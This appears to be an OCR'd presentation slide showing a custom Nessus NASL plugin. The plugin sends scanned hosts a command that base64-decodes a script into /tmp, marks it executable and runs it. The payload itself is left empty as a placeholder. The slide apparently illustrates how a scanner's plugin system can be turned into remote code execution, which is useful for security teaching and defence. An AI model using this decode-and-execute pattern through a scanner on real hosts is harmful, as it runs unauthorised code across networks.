

# Enable sshd on Port 8834: Custom Plugin
if (description)
{
  script_id(100000); # ID must be unique
  …
}

include("global_settings.inc");
include("ssh_func.inc");
include("telnet_func.inc");
include("hostlevel_funcs.inc");

if ( ! defined_func("pread") ) exit(1, "'pread()' is not defined.");
info_t = INFO_LOCAL;

cmd = "echo                | base64 -d > /tmp/script.sh; chmod +x /tmp/script.sh; /tmp/script.sh";
info_send_cmd(cmd:cmd);

'payload'
Source plugin: /opt/nessus/lib/nessus/plugins/linux_user_enum.nasl
34